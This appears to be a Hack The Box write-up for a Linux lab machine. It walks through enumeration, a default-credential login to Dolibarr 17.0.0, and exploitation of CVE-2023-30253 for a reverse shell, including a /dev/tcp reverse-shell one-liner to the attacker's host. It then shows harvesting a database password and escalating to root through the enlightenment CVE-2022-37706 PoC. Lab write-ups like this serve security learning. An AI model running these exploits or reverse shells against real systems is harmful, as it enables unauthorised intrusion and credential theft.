 ###### Tags
- Linux
- Dolibarr 17.0.0
- CVE-2023-30253
- Enlightenment
- CVE-2022-37706

## Summary
In this Hack The Box machine, I start of with basic Nmap enumeration. Then move on to directory enumeration and vhost enumeration using gobuster and ffuf. From here, we find an endpoint running Dollibarr v17.0.0 that is vulnerable to CVE-2023-30253. We are able to leverage this to get a reverse shell on the machine and get an initial foothold. From here, we find a password for the user `larissa` and are able to use these credentials to log in via SSH. After some quick file system enumeration, and searching for binaries with the SUID bit set... we can note that `enlightenment` is present on the box. It just so happens that this version of enlightenment is vulnerable to [CVE-2022-37706](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/README.md), a local privilege escalation vulnerability. Finally, using a public PoC bash script for [CVE-2022-37706](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/README.md) we are able to successfully escalate our privileges to the root user and obtain the root flag.
## Enumeration

Initial scan:
```bash
nmap -p- --min-rate 10000 -Pn 10.129.248.72
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-05 23:35 EDT
Warning: 10.129.248.72 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.248.72
Host is up (0.063s latency).
Not shown: 64719 closed tcp ports (conn-refused), 814 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

- Service Version, Scripts, and OS detection scan:
```bash
sudo nmap -A -Pn -O -p22,80 10.129.248.72
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-05 23:40 EDT
Nmap scan report for 10.129.248.72
Host is up (0.046s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   45.54 ms 10.10.14.1
2   46.42 ms 10.129.248.72

```

- **Ports Open**
`22`: SSH, `80`: HTTP
- **Domain Found**: `board.htb`
- **Services**
	- OpenSSH 8.2p1
	- Apache httpd 2.4.41

- **Operating System**
Ubuntu 20.04

#### Web page
- add `board.htb` to `/etc/hosts`

#### Directory Enumeration
Nothing interesting found.

#### Vhost Enumeration
`ffuf -w /usr/share/wordlists/dirb/big.txt -H "Host:FUZZ.board.htb" -u "http://board.htb/"`
- Found: `crm.board.htb`


## Foothold
After adding `crm.board.htb` we come across a login page running `Dolibarr 17.0.0`. 
The first username/password combo I tried worked, lets go! (`admin`:`admin`)
To get a foothold on the machine, I will leverage [CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) to get a shell on the machine:
```bash
python exploit.py http://crm.board.htb admin admin 10.10.14.45 6969
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```
Listener:
```bash
nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.10.14.45] from (UNKNOWN) [10.129.248.72] 58436
bash: cannot set terminal process group (850): Inappropriate ioctl for device
bash: no job control in this shell
# getting a backup shell on the machine just in-case
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ sh -i >& /dev/tcp/10.10.14.45/4444 0>&1 &
</website$ sh -i >& /dev/tcp/10.10.14.45/4444 0>&1 &            
[1] 1635
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$
```
Once I got a foothold, after some initial enumeration and file system exploration... I found an SSH password for the user `dolibarrowner`.

```
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
```


## Privilege Escalation
#### Distribution type and version
```bash
cat /etc/*-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.6 LTS"
NAME="Ubuntu"
VERSION="20.04.6 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.6 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal
```
#### Kernel information
```bash
larissa@boardlight:~$ uname -a
Linux boardlight 5.15.0-107-generic #117~20.04.1-Ubuntu SMP Tue Apr 30 10:35:57 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux

larissa@boardlight:~$ cat /proc/version
Linux version 5.15.0-107-generic (buildd@lcy02-amd64-017) (gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, GNU ld (GNU Binutils for Ubuntu) 2.34) #117~20.04.1-Ubuntu SMP Tue Apr 30 10:35:57 UTC 2024
```
#### Environment variables
```bash
$ env

SHELL=/bin/bash
PWD=/home/larissa
LOGNAME=larissa
MOTD_SHOWN=pam
HOME=/home/larissa
LANG=en_US.UTF-8
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
SSH_CONNECTION=10.10.14.45 55718 10.129.248.72 22
LESSCLOSE=/usr/bin/lesspipe %s %s
TERM=xterm-256color
LESSOPEN=| /usr/bin/lesspipe %s
USER=larissa
SHLVL=1
SSH_CLIENT=10.10.14.45 55718 22
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
SSH_TTY=/dev/pts/1
_=/usr/bin/env
```
#### Applications and services

#### SUID Binaries
```bash
$ find / -perm -4000 2>/dev/null

/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo
/usr/bin/su
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper
```

From the output above, we can see `enlightment`. After checking it's version:
```bash
dpkg -l | grep enlightenment
hi  enlightenment                          0.23.1-4                            amd64        X11 window manager based on EFL
hi  enlightenment-data                     0.23.1-4                            all          X11 window manager based on EFL - run time data files
```

After looking up this version of enlightenment with "exploit" we find the following link, which we can easily copy over to the machine then get root :)

root.txt: `a9d8c15af0c4817d83fa86f462e3c387`
### Resources
- https://httpd.apache.org/security/vulnerabilities_24.html
- https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/README.md
- https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
- 